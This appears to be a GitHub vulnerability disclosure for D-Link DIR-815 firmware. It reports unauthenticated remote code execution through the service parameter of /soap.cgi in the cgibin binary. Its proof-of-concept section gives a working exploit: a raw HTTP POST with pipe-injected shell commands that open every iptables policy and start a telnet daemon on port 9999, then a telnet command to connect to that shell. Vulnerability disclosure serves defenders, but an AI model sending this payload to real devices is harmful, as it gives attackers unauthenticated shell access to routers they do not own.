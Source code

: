 # dir-815
Exploit Author: yangchunyu@whu.edu.cn
Vendor: D-Link

Firmware: dir815_v1.01SSb08.bin

I found unauthenticated remote code execution vulnerability in soapcgi_main function of cgibin binary.

On the /soap.cgi HTTP POST message on 49152 port, with the service GET parameter, the unauthenticated remote attacker can execute the shell command.

The similar vulnerability already exists with CVE-2018-6530&CVE-2018-20114.

![image](https://github.com/WhereisRain/dir-815/blob/main/somecode.jpg)

With | string, the device can be exploited, too.

# poc
nc 192.168.0.1 49152
<br>POST /soap.cgi?service=|iptables -P INPUT ACCEPT|iptables -P FORWARD ACCEPT|iptables -P OUTPUT ACCEPT|iptables -t nat -P PREROUTING ACCEPT|iptables -t nat -P OUTPUT ACCEPT|iptables -t nat -P POSTROUTING ACCEPT|telnetd -p 9999| HTTP/1.1
<br>Host: 192.168.0.1:49152
<br>Accept-Encoding: identity
<br>Content-Length: 16
<br>SOAPAction: "whatever-serviceType#whatever-action"
<br>Content-Type: text/xml

whatever content...

telnet 192.168.0.1 9999
